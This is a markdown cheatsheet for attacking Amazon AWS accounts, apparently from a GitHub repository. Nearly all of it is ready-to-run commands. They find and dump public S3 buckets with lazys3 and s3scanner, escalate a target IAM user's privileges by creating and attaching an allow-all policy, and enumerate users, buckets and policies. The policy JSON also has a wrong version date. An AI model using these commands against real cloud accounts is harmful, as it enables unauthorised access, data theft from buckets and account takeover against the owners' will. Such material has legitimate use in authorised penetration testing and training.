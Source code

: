 # Cloud Hacking Cheatsheet
![AWS](https://img.shields.io/badge/AWS-%23FF9900.svg?style=for-the-badge&logo=amazon-aws&logoColor=white)
## Amazon AWS

### Install awscli
```sh
pip3 install awscli
```

### S3 Bucket Enumeration

#### Search for public buckets from a company using lazys3
```sh
ruby lazys3.rb [COMPANY]
```
#### Search for public buckets from a company using s3scanner
```sh
python3 ./s3scanner.py sites.txt
```

#### Dump all open buckets and log both open and closed buckets using s3scanner
```sh
python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt
```

#### Save the file listings of all open buckets to a file using s3scanner
```sh
python ./s3scanner.py --list names.txt
```

### Escalate IAM User Privileges by Exploiting Misconfigured User Policy
```sh
vim user-policy.json
```

Insert:
```sh
{
    "Version": "2011-09-11",
    "Statement": [
        {

            "Effect": "Allow",

            "Action": "*",

            "Resource": "*"

        }
    ]
}
```

Attach the created policy (user-policy) to the target IAM user’s account:

```sh
aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json

aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy
```

### View user policies
```sh
aws iam list-attached-user-policies --user-name [Target Username]
```

### List users
```sh
aws iam list-users
```

### List buckets
```sh
aws s3api list-buckets --query "Buckets[].Name"
```

### List user policies
```sh
aws iam list-user-policies
```

### List role policies
```sh
aws iam list-role-policies
```

### List froup policies
```sh
aws iam list-group-policies
```

### Create user
```sh
aws iam create-user
```


